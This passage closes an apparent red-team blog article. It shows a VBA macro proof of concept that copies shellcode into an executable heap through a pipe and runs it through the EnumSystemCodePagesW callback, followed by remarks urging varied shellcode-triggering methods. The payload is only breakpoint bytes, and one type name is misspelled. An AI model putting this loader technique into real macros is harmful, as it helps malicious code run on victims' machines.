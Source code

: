 ```vb
        bInheritHandle As Long
End Type

Sub poc()
    Dim orig_shellcode(0 To 3) As Byte
    Dim copied_shellcode As LongPtr
    Dim heap As LongPtr
    Dim size As Long
    Dim ret As Long
    Dim source As LongPtr
    Dim sink As LongPtr
    Dim saAttr As SECURITY_ATTRIBUTES
    Dim HEAP_CREATE_ENABLE_EXECUTE As Long
    
    HEAP_CREATE_ENABLE_EXECUTE = &H40000
    
    orig_shellcode(0) = &HCC
    orig_shellcode(1) = &HCC
    orig_shellcode(2) = &HCC
    orig_shellcode(3) = &HCC
    
    heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0)
    copied_shellcode = HeapAlloc(heap, 0, &H10)
    
    saAttr.nLength = LenB(SECURITY_ATRIBUTES)
    saAttr.bInheritHandle = 1
    saAttr.lpSecurityDescriptor = 0
    
    ret = CreatePipe(sink, source, saAttr, 0)
    ret = WriteFile(source, VarPtr(orig_shellcode(0)), 4, size, 0)
    ret = ReadFile(sink, copied_shellcode, 4, size, 0)
    ret = EnumSystemCodePagesW(copied_shellcode, 0)
End Sub
```



# EoF

Although the topic discussed in this article is old, we tend to see always the same patterns (probably just because people repeats what it is highly shared in internet). We encourage to explore alternatives ways to do the things and not just follow blindly what others do. 

As Red Teamers we have to repeat TTPs seen in the wild but also we need to explore more paths. **There are dozens of ways to copy and trigger your shellcode, just don't stick to one and be creative!**

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).

